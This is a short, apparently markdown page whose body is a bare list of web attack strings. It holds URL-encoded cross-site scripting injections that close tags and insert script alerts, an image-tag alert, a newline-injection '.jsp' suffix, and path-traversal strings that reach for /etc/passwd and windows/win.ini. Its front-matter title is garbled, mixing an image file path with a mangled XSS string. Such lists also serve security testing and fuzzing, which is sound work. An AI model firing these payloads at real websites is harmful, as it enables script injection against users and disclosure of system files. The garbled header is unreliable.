 title: 0a0a.jsp223cscript3ealert(22xss22)3c/scr
date: 2013-08-11 10:20:11
---

<img src="alert('XSS')"> 
%0a%0a.jsp 
%22%3cscript%3ealert(%22xss%22)%3c/script%3e 
%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd 
%2E%2E/%2E%2E/%2E%2E/%2E%2E/%2E%2E/windows/win.ini 
%3c/a%3e%3cscript%3ealert(%22xss%22)%3c/script%3e 
%3c/title%3e%3cscript%3ealert(%22xss%22)%3c/script%3e 
%3cscript%3ealert(%22xss%22)%3c/script%3e/index.html